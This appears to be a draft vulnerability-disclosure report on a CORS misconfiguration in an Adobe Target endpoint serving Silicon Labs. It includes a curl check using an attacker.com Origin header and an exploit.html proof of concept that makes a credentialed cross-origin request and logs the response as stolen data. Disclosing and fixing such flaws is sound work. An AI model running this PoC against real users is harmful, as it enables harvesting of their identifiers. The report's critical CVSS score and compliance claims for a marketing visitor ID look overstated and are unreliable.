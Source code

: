 
Subject: [Critical] CWE-942: CORS Misconfig in Adobe Target API (Silabs Integration)  
Severity: CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:P/VC:H/VI:H/VA:H/SC:H/SI:H/SA:H=9.1  
Researcher: [Your Name/HackerOne ID]  
Disclosure: Full after 90 days per policy  

### Vulnerability Details  
**Affected Endpoint**:  
`POST https://siliconlabs.tt.omtrdc.net/rest/v1/delivery`  

**Vulnerability**:  
- Reflects attacker-controlled `Origin` header  
- Returns `Access-Control-Allow-Credentials: true`  
- Exposes `marketingCloudVisitorId` (persistent user identifier)  

### Proof of Concept  

```bash
# Step 1: Verify CORS misconfiguration
curl -H "Origin: https://attacker.com" -I \
https://siliconlabs.tt.omtrdc.net/rest/v1/delivery

# Expected response:
Access-Control-Allow-Origin: https://attacker.com
Access-Control-Allow-Credentials: true
```


# Step 2: Reproduce data theft (attached exploit.html)

### Full Reproduction Steps

1. Login to `https://www.silabs.com`
    
2. Host [attached exploit.html]
    
3. Visit malicious page → Observe exfiltration
    

### Evidence Attachments

1. `exploit.html`: Self-contained PoC
    
2. `curl-output.txt`: Full CORS verification output
    
3. `session-data.json`: Redacted response sample:
    

	json
	
	{
	  "status": 200,
	  "id": {
	    "marketingCloudVisitorId": "REDACTED"
	  }
	}

### Compliance Impact

Exposed `marketingCloudVisitorId` violates:

- GDPR Articles 5(1)f, 32
    
- CCPA § 1798.150
    

### Remediation

**Immediate Actions**:

nginx

# Adobe-side CORS policy
allowedOrigins = ["https://www.silabs.com"]
allowCredentials = false

**Validation Command**:

bash

curl -H "Origin: https://attacker.com" -I \
https://siliconlabs.tt.omtrdc.net/rest/v1/delivery
# Expected: 403/404 if fixed

#### `exploit.html`


```html

<!DOCTYPE html>
<html><body>
<script>
fetch('https://siliconlabs.tt.omtrdc.net/rest/v1/delivery?client=siliconlabs&version=2.11.7', {
  method: 'POST',
  credentials: 'include',
  headers: {'Content-Type': 'application/json'},
  body: JSON.stringify({})
})
.then(r => r.text())
.then(data => console.log("STOLEN DATA:", data))
</script>
</body></html>
```